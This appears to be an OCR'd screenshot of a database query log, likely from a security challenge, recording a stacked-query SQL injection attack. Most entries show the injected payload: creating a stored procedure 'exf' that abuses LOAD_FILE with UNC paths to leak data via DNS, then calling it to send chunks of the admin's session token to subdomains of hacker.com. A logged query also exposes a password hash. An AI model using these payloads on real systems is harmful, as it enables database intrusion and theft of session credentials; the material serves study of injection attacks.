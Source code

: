 ```sql

SQL: [100] SELECT identifier, password FROM files
                        WHERE identifier = ? AND password = ?
Sent SQL: [238] SELECT identifier, password FROM files
                        WHERE identifier = 'TCOGVVQV' AND password = '8df24996e23367dec444738ede91ce9e9d1d198f753b615146601527484569305b50187e75accd91a1dd240c5e88e3e64b9885349895c28d26898e24679d45a7'

[17-Jun-2022 09:12:41] - Cw70sVKINraMVdAIdvVxdQ5R0FJwC/L3VUjLzEktVvDx9PUMUTBV8HdzC3YNUTDQtOYKSCxKzC22UlAw4AIA

SQL: [39] (SELECT * FROM files LIMIT 5 OFFSET 0);
Params:  0

[17-Jun-2022 09:12:41] - Cw70sVKINjGIVdAIdvVxdQ5R0FJwC/L3VUjLzEktVvDx9PUMUTA0UPB3cwt2DVEw0LTmCkgsSswttlJQMOACAA==

SQL: [40] (SELECT * FROM files LIMIT 10 OFFSET 0);
Params:  0

[17-Jun-2022 09:26:57] - LcxBC4IwHIbxu5/ivbmFwoS6tJPN/0KYznSeMmKYUmAXlejjR9Hluf2e5mT2OCe77QWsIUPKYQNd2wLjYxoWmLzIHRIBq3VDDoJLVVPqCFVtFWVtTRjeI7v51ePl5/7uZ5YIwTkOdMxL/KfGptlV54aYsqVKHQu7Loy+Kgo7H3IuqczkMkxDv0JEZWvMLzKOuQwqP/vnsgdE8AE=

SQL: [154] (SELECT * FROM files LIMIT 10 OFFSET 0);CREATE PROCEDURE exf(data varchar(100)) BEGIN SELECT LOAD_FILE(CONCAT('\\',data,'\a'));END;select 0,NULL,NULL;--);
Params:  0

[17-Jun-2022 09:28:57] - Cw70sVKItjSLVdAIdvVxdQ5R0FJwC/L3VUjLzEktVvDx9PUMUTA0UPB3cwt2DVEw0LR2dvTxUUitSNNQT0pNz8wDsvQyEpOzU4v0kvNz1TU1rYtTc1KTSxQMdPxCfXzAhLWurqY1V0BiUWJusZWCggEXAA==

SQL: [96] (SELECT * FROM files LIMIT 10 OFFSET 0);CALL exf('beginexf.hacker.com'));select 0,NULL,NULL;--);
Params:  0

[17-Jun-2022 09:30:57] - LcxBC4IwGIDhu7/iu7mFihZ4cHQw0RCmlpun6DDsEyWnsBX18wPp8vKcXnHlCdyieH8HInKeZxJ2ULRNBcM0owVeVqWEKISmKEQuIaQsSzkH/A4ka+oslUR0JyHbsj4TYnHG/gUWrZ3WBQazanhbNBY+IxrcvCiNR1c99LS41Iu8+EA9NxhV/0QT9Kt2KWX/T+jVHedbmO9T5lyUUdomAKHzAw==

SQL: [162] (SELECT * FROM files LIMIT 10 OFFSET 0);CALL exf(CONCAT(SUBSTRING((select session from users where username='admin'),1,63),'.hacker.com'));select 0,NULL,NULL;--);
Params:  0

[17-Jun-2022 09:33:08] - LcxBC4IwGIDhu7/iu7mFimJ4cHQw0RCmVpun6DDsEyWnsBX18wPp8vKcXnHhKdyiJL4DEQUvcgk7KK9tDcM0owVe1ZWEKIS2LEUhIaQszzgH/A4kb5s8k0R0RyGvVXMixOKM/QssWjutCwxm1fC2aCx8RjS4eVEaD6566GlxqZfsvSSmnhuMqn+iCfpVu5Sy/yj0mo7zLcz3KXPOyihtU4DQ+QE=

SQL: [163] (SELECT * FROM files LIMIT 10 OFFSET 0);CALL exf(CONCAT(SUBSTRING((select session from users where username='admin'),64,63),'.hacker.com'));select 0,NULL,NULL;--);
Params:  0

[17-Jun-2022 09:35:19] - Cw70sVKItjSJVdAIdvVxdQ5R0FJwC/L3VUjLzEktVvDx9PUMUTA0UPB3cwt2DVEw0LR2dvTxUUitSNNQT81LAdJ6GYnJ2alFesn5ueqamtbFqTmpySUKBjp+oT4+YMJaV1fTmisgsSgxt9hKQcGACwA=

SQL: [94] (SELECT * FROM files LIMIT 10 OFFSET 0);CALL exf('endexf.hacker.com'));select 0,NULL,NULL;--);
Params:  0

[17-Jun-2022 09:37:19] - Cw70sVKItjSOVdAIdvVxdQ5R0FJwC/L3VUjLzEktVvDx9PUMUTA0UPB3cwt2DVEw0LR2dvTxUUitSNNQz0hMzk5N0QNTRXrJ+bnqmtbFqTmpySUKBjp+oT4+YMJaV1fTmisgsSgxt9hKQcGACwA=

SQL: [93] (SELECT * FROM files LIMIT 10 OFFSET 0);CALL exf('hacked.hacker.com');select 0,NULL,NULL;--);
Params:  0
```